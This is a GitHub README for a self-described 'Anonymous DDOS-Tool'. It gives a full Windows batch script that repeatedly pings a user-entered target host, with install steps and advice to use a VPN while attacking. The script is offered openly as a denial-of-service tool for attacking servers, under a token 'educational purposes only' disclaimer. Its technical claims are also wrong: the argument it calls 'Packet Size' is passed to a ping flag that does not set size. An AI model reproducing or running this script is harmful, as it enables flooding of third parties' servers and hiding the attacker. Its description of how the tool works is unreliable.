 # DDOS-Tool
Anonymous DDOS-Tool





# About
  
 A script to Attack http(s) servers                                                
 
make sure u have a vpn installed                

how to install a vpn here:https://youtu.be/te8KE71ndso



# Screenshot
![Unbenannt](https://user-images.githubusercontent.com/97392345/153496914-2f9daae4-6c52-42c6-83b3-5df5f23ee946.PNG)


# Install
 1) Copy the folllowing code to youre Notepad:
 
@echo off

mode 67,16

title DDOS Attack by MR Jack

color 0a

cls

echo.

echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ

echo DDOS With Batchfile

echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ

echo.


set /p x=Server-Target:
echo.

echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ

ping %x%

echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ

@ping.exe 127.0.0.1 -n 5 -w 1000 > nul

goto Next 

:Next

echo.

echo.

echo.

set /p m=ip Host:

echo.

set /p n=Packet Size:

echo.

:DDOS

color 0c

echo Attacking Server %m%

ping %m% -i %n% -t >nul

goto DDOS

2) when u are in the notepad dont forget to remove the Spaces of the code otherwise it wont work
3) 
4) enter the target server, the ip and how many packets u want to send to the Server


Enjoy


# Disclaimer  
im not responsible for any Damage caused with this Tool. use it only for educational purposes only.  
